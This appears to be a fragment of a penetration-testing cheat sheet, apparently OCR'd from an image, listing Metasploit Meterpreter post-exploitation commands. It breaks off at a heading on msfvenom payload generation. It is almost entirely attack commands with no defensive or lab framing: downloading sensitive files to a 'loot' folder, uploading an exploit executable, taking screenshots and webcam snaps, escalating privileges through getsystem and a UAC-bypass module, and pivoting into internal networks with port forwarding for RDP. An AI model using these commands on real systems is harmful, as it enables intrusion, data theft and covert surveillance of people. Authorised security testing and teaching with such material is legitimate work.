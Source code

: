 ```bash

# File operations
download C:\\sensitive\\file.txt ./loot/
upload exploit.exe C:\\Temp\\exploit.exe

# Shell access
shell            # Drop to system shell
# Ctrl+Z to return to meterpreter

# Screenshots (if GUI)
screenshot

# Webcam (if present)
webcam_list
webcam_snap
```

### Meterpreter Privilege Escalation

```bash
# In meterpreter:
getsystem        # Try automatic privesc

# If fails, background and use modules:
background
use exploit/windows/local/bypassuac_eventvwr
set SESSION 1
exploit

# Or manual:
shell
whoami /priv
# Then use PrintSpoofer/GodPotato manually
```

### Meterpreter Pivoting

```bash
# Add route to internal network
route add 192.168.2.0 255.255.255.0 SESSION_ID

# Port forward
portfwd add -l 3389 -p 3389 -r 192.168.2.10

# Now access via localhost
xfreerdp /v:localhost:3389
```

---

## Payload Generation with msfvenom
